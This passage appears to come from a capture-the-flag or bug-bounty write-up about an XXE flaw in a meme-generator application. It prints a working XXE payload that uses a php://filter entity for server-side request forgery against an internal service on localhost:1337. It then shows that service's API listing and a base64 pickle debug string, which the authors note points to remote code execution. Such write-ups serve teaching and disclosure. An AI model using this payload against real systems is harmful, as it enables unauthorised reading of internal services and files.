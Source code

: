 {F351671}

Boom! We confirmed that we finally got XXE working.

So what do we do next? Well, we already have local-file read, so it probably has nothing to do with that. We remembered that we saw a mention of localhost in one of the files. XXE gives us the ability to perform Server-Side Request Forgery and due to the XML being rendered back to the user, it was not blind either. This gives us the ability to fetch and view internal websites or services.

This was a comment in ***/includes/classes.php***

```
  /* Maintenance service: internal service on localhost, still under development!!

  class Maintenance {
    function __construct() {
      //TODO
    }
  }
 
  */
```

We started to try various http:// calls to localhost but we were not having any luck. Eventually we guessed it may be on a random port and our first guess was correct! We got a response from querying http://localhost:1337. The maintenance service was on the port ***1337***.

The non-blind XXE payload was critical for discovering the 1337 port and functionality:

```
<?xml version="1.0"?>
<!DOCTYPE root
[
<!ENTITY foo SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:1337/">
]><test><toptext> &foo;</toptext></test>
```

And this would return:

```
Meme Service - Internal Maintenance API - v0.1 (Alpha); API Documentation: Version 0.1 - Endpoints: 
/status - View maintenance status; 
/update-status Change maintenance status; 
Debug: The debug parameter allows debugging;
```

Oh no, more challenges to solve.

Accessing /status?debug=1 printed:

```
Maintenance mode: off | Debug: KGlhcHAKU3RhdHVzCnAxCihkcDIKUydtZXNzYWdlJwpwMwpTJ01haW50ZW5hbmNlIG1vZGU6IG9mZicKcDQKc1MnbWFpbnRlbmFuY2UnCnA1CkkwMApzYi4=
```

Base64 decoding the string we immediately recognized that it was Python pickle. This is essentially Python's version of serialization and has similar object injection vulnerabilities. However, Python pickle generally just leads immediately to Remote Code Execution.
